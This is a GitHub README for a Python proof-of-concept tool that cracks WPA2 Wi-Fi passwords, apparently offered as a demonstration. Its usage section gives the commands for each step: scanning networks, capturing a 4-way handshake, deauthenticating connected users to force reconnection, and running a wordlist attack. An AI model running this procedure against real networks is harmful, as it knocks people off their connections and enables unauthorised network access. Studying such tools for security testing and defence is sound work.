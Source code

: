 # WPA2-Crack
This a POC to show how a WPA-2 network can be cracked by computing the message integrity check in python.

## Requirements
* Python >= 3.6
* pbkdf2 == 1.3
* scapy >= 2.4.3

## Installation
  ```bash
  git clone https://github.com/nicolas031/WPA2-Crack.git
  cd WPA2-Crack
  pip3 install -r requirements.txt
  ```
  
## Usage
  The interface needs to be in monitor mode. (No check is done yet, it is just not going to work)
  The first step is to discover wifi network around us, for this we can use the `scan_wifi.py` script:
  ```sh
  sudo python3 scan_wifi.py -i wlan0mon
  ```

  For every wifi networks around you, you will be able to see the channel, BSSID and SSID
  We are now ready to capture the 4-way handshake for a choosen network + a beacon frame from this network.
  ```sh
  python3 capture_handshake.py -i wlan0mon -b xx:xx:xx:xx:xx:xx -c 1 -o handshake.pcap
  ```
  This script is now waiting for a device to connect to the network in order to capture the 4-Way handhsake, we can use the deauth.py script to disconnect user from the network:

  ```sh
  python3 deauth.py -i wlan0mon -b xx:xx:xx:xx:xx:xx
  ```
  
  Once we captured the handshake we are ready to start cracking the password
  ```sh
  python3 crack_password -w wordlist -p handshake.pcap
  ```
  If the password is in the wordlist, it will be found and displayed to the screen.

  Here is a short video:
  [button url="https://www.youtube.com/watch?v=U7SkzveOCqs"]
  
  ### Changelogs
  ```
  v2.0.0
  ------
  * Added a beacon frame in the capture, to avoid error when user had to enter the SSID in crack_password.py script
  * Code refactoring, espacially tab changed into spaces !
  * Renamed files name
  * Added option to enter output filename in capture_handshake.py script
  * Deleted SSID option in crack_password.py script
  ```

